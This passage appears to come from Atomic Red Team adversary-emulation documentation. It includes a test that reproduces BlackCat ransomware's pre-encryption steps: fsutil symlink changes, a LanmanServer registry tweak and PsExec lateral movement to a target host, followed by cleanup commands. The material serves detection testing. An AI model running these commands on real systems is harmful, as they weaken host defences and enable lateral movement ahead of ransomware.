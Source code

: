 ##### Description: psexec.py (Impacket)

##### Check Prereq Commands:

```bash
if [ -x "$(command -v psexec.py)" ]; then exit 0; else exit 1; fi;
```

##### Get Prereq Commands:

```bash
sudo pip3 install impacket
```

<br/>
<br/>

## Atomic Test #4 - BlackCat pre-encryption cmds with Lateral Movement

This atomic attempts to emulate the unique behavior of BlackCat ransomware prior to encryption and during Lateral Movement attempts via PsExec on Windows. Uses bundled PsExec like BlackCat

**Supported Platforms:** Windows

**auto_generated_guid:** 31eb7828-97d7-4067-9c1e-c6feb85edc4b

#### Inputs:

| Name       | Description                                                                        | Type   | Default Value     |
| ---------- | ---------------------------------------------------------------------------------- | ------ | ----------------- |
| targethost | Target hostname to attempt psexec connection to for emulation of lateral movement. | string | $ENV:COMPUTERNAME |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
cmd.exe /c "wmic 	csproduct 	get UUID"
cmd.exe /c "fsutil behavior 	set SymlinkEvaluation R2L:1"
cmd.exe /c "fsutil behavior set 	SymlinkEvaluation R2R:1"
reg    add    HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters    /v MaxMpxCt /d 65535 /t REG_DWORD /f
copy "PathToAtomicsFolder\..\ExternalPayloads\PsExec.exe" $env:temp
cmd.exe /c "$env:temp\psexec.exe  -accepteula  \\#{targethost} cmd.exe  /c echo "--access-token""
```

#### Cleanup Commands:

```powershell
reg delete HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters /v MaxMpxCt /f
cmd.exe /c "fsutil behavior set SymlinkEvaluation R2L:0"
cmd.exe /c "fsutil behavior set SymlinkEvaluation R2R:0"
rm $env:temp\psexec.exe
```
